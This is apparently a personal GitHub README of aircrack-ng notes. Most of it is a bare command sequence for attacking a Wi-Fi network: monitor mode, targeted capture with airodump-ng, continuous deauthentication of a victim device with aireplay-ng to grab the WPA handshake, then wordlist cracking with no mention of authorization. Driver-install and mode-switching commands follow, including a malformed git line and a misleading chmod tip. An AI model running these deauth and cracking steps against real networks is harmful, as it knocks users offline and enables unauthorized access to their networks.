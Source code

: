 # aircrack-ng-

https://www.youtube.com/watch?v=77cWBybyvV4
// this is for quadcomm adapter

iwconfig
ifconfig
airmon-ng check kill
airmon-ng start wlan0
iwconfig
airodump-ng wlan0mon
ctri c
airodump-ng -cX -w capture -d MACADD wlan0mon 
new root
aireplay-ng --deauth 0 -a MACADD -c DEVICEMACADD wlan0mon 
wait for WPA hadshake then stop deauth

ls
wireshark capture-X.cap 
-filter for eapol
airmon-ng stop wlan0mon 
iwconfig 
aircrack-ng capture-X.cap -w /usr/share/dict/words

///////////////////////////////////////////////////////////////////////////////////////////////////////////////

https://github.com/aircrack-ng/rtl8188eus
//instalation 

    sudo apt update
    sudo apt upgrade
    sudo apt-get dist-upgrade
    reboot
    sudo apt-get install linux-headers-$(uname -r)
    sudo apt install bc
    sudo apt-get install build-essential
    sudo apt-get install libelf-dev
    sudo apt install dkms
    sudo rmmod r8188eu.ko
    git https://github.com/drygdryg/rtl8188eus (This works for me joy)
    cd rtl8188eus
    sudo -i
    echo 'blacklist r8188eu'|sudo tee -a '/etc/modprobe.d/realtek.conf'
    reboot
    cd rtl8188eus
    sudo make && make install
    reboot


// enter monitor mode

$ sudo airmon-ng check kill
$ sudo ip link set <interface> down
$ sudo iw dev <interface> set type monitor

//enter manage mode 

$ sudo iw dev <interface> set type managed
service NetworkManager restart 
 ////////////////////////////////////////////////////////////////////////////////////////////////////////////////
 

    
    To remove locked files 
    chmod a+rwx <filename>
